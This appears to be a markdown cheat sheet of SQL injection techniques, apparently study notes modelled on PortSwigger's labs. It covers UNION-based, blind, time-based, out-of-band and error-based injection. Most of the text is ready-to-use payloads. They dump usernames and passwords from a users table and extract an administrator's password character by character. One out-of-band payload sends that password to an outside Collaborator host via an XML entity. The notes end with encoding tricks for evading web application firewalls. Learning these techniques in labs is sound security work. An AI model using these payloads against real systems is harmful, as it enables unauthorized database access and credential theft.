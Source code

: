 # SQL Injection (SQLi) Attacks

## UNION-Based SQLi

Used when application displays query results in responses.

### Requirements

- Same number of columns.
- Compatible data types.
- Add comment using `#` or `--`.

### Determine Column Count

**Method 1: ORDER BY**

```sql
' ORDER BY 1--
' ORDER BY 2--
```

**Method 2: UNION SELECT NULLs**

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
```

If error occurs, number of columns is incorrect.

**For Oracle:**
Use `FROM DUAL`:

```sql
' UNION SELECT NULL FROM DUAL--
```

### Determine Writable Columns

Test each column with string:

```sql
' UNION SELECT 'a',NULL--
' UNION SELECT NULL,'a'--
```

If error, column can't hold string data.

### Extract Table Data

```sql
' UNION SELECT username,password FROM users--
' UNION SELECT NULL,username,password FROM users--
```

### Concatenate Values (Oracle):

```sql
' UNION SELECT NULL,username || '~' || password FROM users--
```

### Database Version

```sql
-- MySQL
SELECT @@version
-- Oracle
SELECT * FROM v$version
-- PostgreSQL
SELECT version()
```

### List Tables and Columns

```sql
-- List tables
' UNION SELECT table_name, NULL FROM information_schema.tables--
-- List columns
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--
```

## Blind SQLi

When responses do not include query results.

### Conditional Response

Example using cookie:

```http
Cookie: TrackingId=xyz' AND '1'='1
Cookie: TrackingId=xyz' AND '1'='2
```

### Extract Password for Known User

```sql
-- Confirm table
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
-- Confirm user
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
-- Determine password length
TrackingId=xyz' AND (SELECT LENGTH(password)>1 FROM users WHERE username='administrator')='a
-- Guess characters
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
```

Use Burp Intruder to brute force characters. Adjust substring index to loop through the password.

## Time-Based Blind SQLi

Determine true/false conditions using delay.

### Example (PostgreSQL):

```sql
TrackingId=x'; SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END--
```

Delay = True; No delay = False

### Exploit Example:

```sql
-- Confirm username exists
TrackingId=x'; SELECT CASE WHEN (username='administrator') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users--
-- Guess password length
TrackingId=x'; SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users--
-- Extract password
TrackingId=x'; SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users--
```

## Out-of-Band (OAST) SQLi

When application makes async SQL queries.

### Test with Burp Collaborator

```sql
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml version="1.0" encoding="UTF-8"%3f><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://COLLABORATOR/"> %remote;]>'),'/l') FROM dual--
```

### Exfiltrate Data

```sql
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml version="1.0" encoding="UTF-8"%3f><!DOCTYPE root [<!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.COLLABORATOR/"> %remote;]>'),'/l') FROM dual--
```

## Error-Based SQLi

Use error messages to infer or extract data.

### Test

```sql
TrackingId=xyz'
TrackingId=xyz''
TrackingId=xyz'||(SELECT '')||'
TrackingId=xyz'||(SELECT '' FROM dual)||'
TrackingId=xyz'||(SELECT '' FROM not_a_real_table)||'
```

### Exploit

```sql
-- Confirm table exists
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
-- Force error based on condition
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

## Encoding Techniques

- Start with raw payloads; if blocked, try URL encoding.
- If WAF blocks still occur, switch to Hex or Unicode encoding.
- Combine encoding methods (e.g., double encoding) for increased stealth.

### When Not to Encode

- Request body uses JSON, XML, or plaintext.
  Example: `{ "username": "admin' OR '1'='1" }`
- Cookies and Headers.

---

**Reference**: [PortSwigger SQLi Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

